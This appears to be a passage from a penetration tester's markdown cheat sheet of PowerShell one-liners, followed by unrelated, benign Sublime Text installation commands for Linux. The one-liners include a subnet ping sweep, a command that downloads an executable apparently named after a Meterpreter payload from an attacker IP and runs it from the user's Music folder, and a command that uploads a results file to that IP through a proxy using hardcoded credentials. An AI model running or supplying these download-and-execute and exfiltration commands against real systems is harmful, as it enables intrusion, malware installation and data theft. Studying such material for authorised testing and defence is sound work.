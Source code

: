 
#### One-liners

Powershell ping sweep:

```
echo "[*] Scanning in progress...";1..254 |ForEach-Object {Get-WmiObject Win32_PingStatus -Filter "Address='10.10.100.$_' and Timeout=50 and ResolveAddressNames='false' and StatusCode=0" |select ProtocolAddress* |Out-File -Append -FilePath .\live_hosts.txt};echo "[+] Live hosts:"; Get-Content -Path .\live_hosts.txt | ? { $_ -match "10.10.100" }; echo "[*] Done.";del .\live_hosts.txt
```

Powershell auto detect proxy, download file from remote HTTP server and run it:

```
$proxyAddr=(Get-ItemProperty "HKCU:\Software\Microsoft\Windows\CurrentVersion\Internet Settings").ProxyServer;$proxy=New-Object System.Net.WebProxy;$proxy.Address=$proxyAddr;$proxy.useDefaultCredentials=$true;$client=New-Object System.Net.WebClient;$client.Proxy=$proxy;$client.DownloadFile("http://10.10.13.37/met.exe","$env:userprofile\music\met.exe");$exec=New-Object -com shell.application;$exec.shellexecute("$env:userprofile\music\met.exe")
```

Powershell manually set proxy and upload file to remote HTTP server:

```
$client=New-Object System.Net.WebClient;$proxy=New-Object System.Net.WebProxy("http://proxy.example.local:3128",$true);$creds=New-Object Net.NetworkCredential('snovvcrash','Passw0rd1!','example.local');$creds=$creds.GetCredential("http://proxy.example.local","3128","KERBEROS");$proxy.Credentials=$creds;$client.Proxy=$proxy;$client.UploadFile("http://10.10.13.37/results.txt","results.txt")
```





# Sublime Text




## Installation



### Linux

```
$ wget -qO - https://download.sublimetext.com/sublimehq-pub.gpg | sudo apt-key add -
$ sudo apt install apt-transport-https -y
$ echo "deb https://download.sublimetext.com/ apt/stable/" | sudo tee /etc/apt/sources.list.d/sublime-text.list
$ sudo apt update && sudo apt install sublime-text -y

$ wget -qO - https://download.sublimetext.com/sublimehq-pub.gpg | sudo apt-key add - && sudo apt install apt-transport-https -y && echo "deb https://download.sublimetext.com/ apt/stable/" | sudo tee /etc/apt/sources.list.d/sublime-text.list && sudo apt update && sudo apt install sublime-text -y
```


[//]: # (# -- 5 spaces before)
[//]: # (## -- 4 spaces before)
[//]: # (### -- 3 spaces before)
[//]: # (#### -- 2 spaces before)
[//]: # (##### -- 1 spaces before)